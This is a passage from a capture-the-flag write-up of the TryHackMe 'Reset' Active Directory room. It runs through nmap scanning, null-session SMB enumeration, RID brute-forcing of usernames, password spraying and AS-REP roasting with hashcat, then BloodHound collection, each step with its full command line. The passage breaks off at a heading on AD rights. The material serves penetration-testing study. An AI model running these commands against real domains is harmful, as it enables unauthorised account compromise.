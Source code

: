 The [reset](https://tryhackme.com/room/resetui) box is a great active directory room found on [thm](https://tryhackme.com) We get to mess about in an active directory environment and there is a fun watering hole attack to be found, too... :smiling_imp: 

## port scanning

We can start with an nmap scan which shows us that the target machine is probably a domain controller since it has port 88 open - this port is used for kerberos :dog: :dog: :dog: authentication traffic.

`ports19=$(sudo nmap -n -Pn -p- --min-rate=250 -sS --open 10.10.181.19 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`

`echo $ports19 > p19.txt`

![nmap1](/images/1.png)

When we scan the open tcp ports more intensely, we get some data about the domain and the machine we are attacking. We also notice that port 5985 is open - this is of interest as it is a port which is used by *winrm* which in turn is a service which could give us a shell if we find valid credentials.

`sudo nmap -Pn -n -p$ports19 -sV -A 10.10.181.19`

![nmap2](/images/2.png)

---

## smb enumeration

Since smb is being used, we can start our enumeration of the box with it - can we get a null session and thereby enumerate useful data? :thinking: We find that we can!

The IPC$ share has read access for non-authenticated users such as ourselves - we can use this to bruteforce valid usernames. There is a non-default share called *Data* which also allows non-authenticated users read access which means we can enumerate it for anything which is interesting or useful. The *Data* share curiously allows non-authenticated users to write to it which could well be of use later on...

`sudo smbmap -H 10.10.152.174 -u 'guest' -p ''`

![smb1](/images/3.png)

We have a look into the *Data* share and find two pdf files along with a txt file. We can download these using smbclient and have a look at them. We are able to retreive a possible username:password combination by taking the time to carefully look through them.

> [!IMPORTANT]
> We need to escape \ when enumerating windows systems from a linux command line

---

`sudo smbclient \\\\10.10.152.174\\Data -U THM.corp\\guest`

---

`cd onboarding`

---

`mget *.pdf`

---

![smb2](/images/6.png)

---

## bruteforcing usernames

We can use *crackmapexec* to brute force user names since we have read access to the IPC$ share as an anonymous user.

`sudo crackmapexec smb 10.10.152.174 -u 'guest' -d thm.local -p '' --rid-brute`

![usernames1](/images/4.png)

![usernames2](/images/5.png)

We can also use the *impacket* tool called *lookupsid.py* We can use bash commands with this tool to create a list of usernames.

`sudo python3 lookupsid.py THM.corp/guest@10.10.181.19 | grep -i 'SidTypeUser' | cut -d '\' -f 2 | awk {'print $1'} > usernames.txt`

![usernames3](/images/8b.png)

![usernames4](/images/8c.png)

Before launching a brute force attack, it makes sense to try and enumerate the password policy since we do not want to lock out accounts. In this case, we could not do so, but it is still worth trying as older servers are vulnerable to this kind of enumeration.

`sudo crackmapexec smb 10.10.152.174 -u 'guest' -p '' --pass-pol`

As we can't find out anything about the password policy in place, it makes sense to use a password spraying attack rather than a traditional brute force :hammer: so we run less chance of locking accounts.

> [!IMPORTANT]
> Password spraying is where we use one password against lots of different accounts

`sudo crackmapexec smb 10.10.181.19 -u usernames.txt -p 'ResetMe123!'`

![usernames5](/images/9.png)

![usernames6](/images/10.png)

The valid credentials which we have obtained for the LILY_ONEILL user do not give us access to the target machine :lock: so we need to think of a different way to hack it... 🤔 

---

## as-rep roasting

Thinking again, we come up with an as~~s~~-rep roasting attack. This type of attack takes advantage of the fact that anybody can request a ticket granting ticket :ticket: from the key distribution center for a user account if that account has kerberos pre-authentication disabled. This might seem :zany_face: but it is somethimes necessary - for example if a user needs to access an app which does not support kerberos pre-authentication. Ths useful thing is that a ticket granting ticket is encrypted :key: using a key derived from the user's password. This means that once we have a tgt for a user, we also have a hash to crack which if cracked will give us the user's plaintext password :ghost:

In this case, we receive three hashes and manage to crack one of them.

`sudo python3 GetNPUsers.py THM.corp/ -dc-ip 10.10.152.174 -usersfile usernames.txt -no-pass -request -outputfile hashes.txt`

![asrep1](/images/11.png)

![asrep2](/images/12.png)

`sudo hashcat -a 0 -m 18200 --potfile-path=reset.pot hashes.txt rockyou.txt -O`

![asrep3](/images/13.png)

`sudo hashcat -a 0 -m 18200 --potfile-path=reset.pot hashes.txt rockyou.txt -O --show`

![asrep4](/images/14.png)

The valid credentials which we discover for the user account TABATHA_BRITT do not give us access to the target machine, either :no_entry: 

---

## bloodhound enumeration

We turn to bloodhound since we have found nothing but :door:

After loading *neo4j* and *bloodhound* we can use an ingestor to enumerate the domain further. We can use the creds we have found for TABATHA_BRITT with the ingestor.

`sudo bloodhound-python -d THM.corp -u 'TABATHA_BRITT' -p '<REDACTED>' -ns 10.10.152.174 -c all`

![bloodhound1](/images/15.png)

Once we have obtained the data, we upload it to bloodhound and start to analyze it.

![bloodhound2](/images/16.png)

When we look under *Transitive Object Control* under *Node Info* for the TABATHA_BRITT node, we see some interesting active directory rights.

![bloodhound3](/images/17.png)

![bloodhound4](/images/18.png)

---

### active directory rights

